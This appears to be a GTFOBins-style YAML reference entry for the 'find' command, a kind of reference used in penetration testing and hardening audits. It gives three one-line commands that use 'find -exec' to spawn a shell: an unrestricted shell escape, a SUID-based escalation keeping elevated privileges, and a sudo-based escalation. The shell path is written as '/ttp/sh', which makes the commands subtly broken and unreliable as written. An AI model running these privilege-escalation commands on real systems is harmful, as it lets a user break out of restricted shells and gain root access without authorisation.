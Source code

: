 ```yaml
---
functions:
  shell:
    - code: find . -exec /ttp/sh \; -quit
  suid:
    - code: ./find . -exec /ttp/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /ttp/sh \; -quit
---
```

